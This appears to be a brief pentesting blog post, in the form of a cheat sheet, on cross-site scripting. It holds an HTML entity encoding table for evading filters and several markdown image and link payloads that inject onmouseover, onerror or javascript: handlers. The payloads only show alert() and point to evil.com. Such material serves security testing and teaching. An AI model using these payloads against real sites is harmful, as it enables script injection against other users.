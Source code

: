 ```yaml
---
layout: post
title: "XSS Payload Expansion"
date: 2024-01-01 08:30:00 +0700
categories: "Web-Pentesting"
---
```


## Alternative Tag Encoding

| Tag | Hex Code | Decimal |
| :-: | :------: | :-----: |
|  <  | `&#x3c;` | `&#60;` |
|  >  | `&#x3e;` | `&#62;` |
|  "  | `&#x22;` | `&#34;` |
|  =  | `&#x3d;` | `&#61;` |
|  (  | `&#x28;` | `&#40;` |
|  )  | `&#x29;` | `&#41;` |
|  ;  | `&#x3b;` | `&#59;` |

Payload to use `<h1>` => `&#x3c;h1&#x3e;` or `<script>` => `&#60;script&#62;`.

-----

<br/>

## XSS on Markdown Format

Image
```
![" onmouseover="alert(1);](https://evil.com/random.png)
![TEST](x"/onerror="alert`/Oops/`)
```

URL / Anchor href
```
[TEST](javascript:alert(document.domain))
[" onmouseover="alert(1);](javascript:alert(document.domain))
<https://evil.com" onmouseover="alert(1)>
``` 